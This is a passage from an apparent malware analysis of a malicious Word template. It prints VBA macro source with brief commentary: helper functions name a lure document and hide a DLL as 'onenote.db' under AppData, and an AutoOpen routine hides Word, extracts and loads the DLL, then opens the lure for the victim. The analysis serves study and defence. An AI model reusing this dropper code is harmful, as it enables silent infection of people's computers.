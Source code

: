 ```vb
 objStream.SaveToFile docPath, 2
 Set objStream = Nothing
End Sub
```

<h6>We can note that the functions used for the name generation give a name based on the current path of the dotm file but like a dll, this check if the files already exist and rename it, this avoids to throw errors on the victim. We can also see that the same part of a common path used for store the dll continue to be used on their operation (\AppData\Local\Microsoft\).</h6>

```vb
Function GetDocName() As String
 On Error Resume Next
 curDocNameFull = ActiveDocument.Path & "\" & ActiveDocument.Name
 curDocName = Left(curDocNameFull, InStrRev(curDocNameFull, ".") - 1)
 newDocNameFull = curDocName & " .doc"
 Do While FileExist(newDocNameFull)
  curDocName = curDocName & " "
  newDocNameFull = curDocName & " .docx"
 Loop
 GetDocName = newDocNameFull
End Function

Function GetDllName() As String
 On Error Resume Next
 Dim dllPath As String
 workDir = Environ("UserProfile") & "\AppData\Local\Microsoft\OneNote"
 If Not FolderExist(workDir) Then
  MkDir (workDir)
 End If
 dllPath = workDir & "\onenote.db"
 nIdx = 0
 Do While FileExist(dllPath)
  workDir = workDir & "\Modules"
  If Not FolderExist(workDir) Then
   MkDir (workDir)
  End If
  dllPath = workDir & "\onenote.db"
 Loop
 GetDllName = dllPath
End Function
```

<h6>The final part is the autoopen method for execute the macro at the beginning of the document, extract the lure and the dll, give their names and execute dll in passing the lure document in argument for show it to the victim.</h6>

```vb
Sub AutoOpen()
 On Error Resume Next
 Application.Visible = False
 dllPath = GetDllName()
 docPath = GetDocName()
 orgDocPath = ActiveDocument.Path & "\" & ActiveDocument.Name
 ExtractDll (dllPath)
 ExtractDoc (docPath)
 LoadLibraryA (dllPath)
 a = CoContentInfo(orgDocPath, "S-6-38-4412-76700627-315277-3247", "18")
 Dim objDocApp
 Set objDocApp = CreateObject("Word.Application")
 objDocApp.Visible = True
 objDocApp.Documents.Open docPath
 Application.Quit (wdDoNotSaveChanges)
End Sub
```
